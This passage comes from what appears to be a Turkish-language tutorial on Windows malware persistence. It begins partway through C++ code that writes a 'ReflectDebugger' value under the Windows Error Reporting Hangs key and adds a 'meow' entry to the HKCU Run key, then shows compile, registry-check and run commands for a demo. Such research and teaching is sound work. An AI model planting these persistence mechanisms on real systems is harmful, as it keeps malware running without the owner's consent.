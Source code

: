```cpp
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  // başlangıç
  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // yeni bir kayıt defteri anahtarı oluştur
    RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, 
    strlen(wf));
    RegCloseKey(hkey);
  }
  return 0;
}
```

### demo

Haydi her şeyi eyleme dökelim. "Kötü" uygulamamızı derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/78/2022-11-02_04-54.png){width="80%"}    

ve kalıcılık betiğini derleyelim:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
fdata-sections -Wno-write-strings -fno-exceptions \
fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/78/2022-11-02_04-55.png){width="80%"}    

Her şeyi çalıştırmadan önce, ilk olarak kayıt defteri anahtarını ve değerini kontrol edelim:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\" /s
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger" /s
```

"Kötü amaçlı yazılımı" kontrol amacıyla çalıştıralım:     

```powershell
.\hack.exe
```
